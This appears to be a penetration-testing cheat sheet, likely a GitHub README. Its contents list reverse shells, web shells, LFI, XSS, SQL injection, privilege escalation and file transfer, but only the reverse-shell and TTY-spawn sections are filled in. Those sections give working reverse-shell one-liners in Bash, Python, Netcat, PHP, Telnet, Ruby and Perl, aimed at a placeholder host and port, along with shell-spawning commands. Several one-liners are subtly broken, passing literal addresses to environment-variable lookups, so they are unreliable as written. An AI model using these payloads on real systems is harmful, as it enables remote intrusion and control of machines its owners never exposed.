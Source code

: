____

### Reverse shell
* #### [Bash](#reverse_shell_bash)
* #### [Python](#reverse_shell_python)
* #### [Netcat](#reverse_shell_netcat)
* #### [PHP](#reverse_shell_php)
* #### [Telnet](#reverse_shell_telnet)
* #### [Ruby](#reverse_shell_ruby)
* #### [Perl](#reverse_shell_perl)
### TTY Spawn Shell
* #### [Python spawn shell](#python_spawn_shell)
* #### [OS system spawn shell](#os_system_spawn_shell)
* #### [Bash spawn shell](#bash_spawn_shell)
* #### [Perl spawn shell](#perl_spawn_shell)
* #### [Python spawn shell](#python_spawn_shell)
* #### [Lua spawn shell](#lua_spawn_shell)
* #### [IRB spawn shell](#irb_spawn_shell)
* #### [VI spawn shell](#vi_spawn_shell)
* #### [VI(2) spawn shell](#vi2_spawn_shell)
* #### [Nmap spawn shell](#nmap_spawn_shell)
### PHP Reverse Shell
* #### RCE
* #### Obfuscate PHP Web Shell
* #### PHP Reverse Shell
### LFI
* #### Directory traversal
* #### PHP Wrapper php://file
* #### PHP Wrapper php://filter
* #### Useful LFI files (Linux)
* #### Useful LFI files (Apache)
* #### Useful LFI files (MySQL)
* #### Useful LFI files (Windows)
### XSS
* #### Data grabber for XSS
* #### XSS in HTML/Applications
  * ##### Basic Payload
  * ##### Img tag payload
* #### XSS in Markdown
* #### XSS in SVG
* #### Bypass word blacklist with code evaluation
### SQL Injection Payloads
* #### Generic SQL Injection
* #### Time-Based
* #### Generic Error Based Payloads
* #### Authentication Based Payloads
* #### Order by and UNION Based Payloads
### Useful Linux command
* #### SUID Commands
* #### System Version
* #### Environment Variables
* #### Service settings
* #### Cron Jobs
* #### Other Users
* #### Port Forwarding
* #### TAR wildcard cronjob privilege escalation
### File Transfer
* #### Bash Upload
* #### Bash Download
* #### Netcat
* #### Python
* #### SCP

____

### Reverse shell > <a name="reverse_shell_bash"></a>Bash
###### bash -c 'exec bash -i &>/dev/tcp/127.0.0.1/1234 <&1'

### Reverse shell > <a name="reverse_shell_python"></a>Python
```python  
python -c 'import sys,socket,os,pty;s=socket.socket()
  s.connect((os.getenv("127.0.0.1"),int(os.getenv("1234"))))
  [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
  pty.spawn("/bin/sh")'
```

### Reverse shell > <a name="reverse_shell_netcat"></a>Netcat
###### rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f

### Reverse shell > <a name="reverse_shell_php"></a>PHP
###### php -r '$sock=fsockopen(getenv("127.0.0.1"),getenv("1234"));exec("/bin/sh -i <&3 >&3 2>&3");'

### Reverse shell > <a name="reverse_shell_telnet"></a>Telnet
###### TF=$(mktemp -u); mkfifo $TF && telnet 127.0.0.1 1234 0<$TF | /bin/sh 1>$TF

### Reverse shell > <a name="reverse_shell_ruby"></a>Ruby
###### ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["127.0.0.1"],ENV["1234"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

### Reverse shell > <a name="reverse_shell_perl"></a>Perl
###### perl -e 'use Socket;$i="$ENV{127.0.0.1}";$p=$ENV{1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

____

### TTY Spawn Shell > <a name="python_spawn_shell"></a>Python spawn shell
###### python -c 'import pty; pty.spawn("/bin/sh")'

### TTY Spawn Shell > <a name="os_system_spawn_shell"></a>OS system spawn shell
###### echo os.system("/bin/bash")
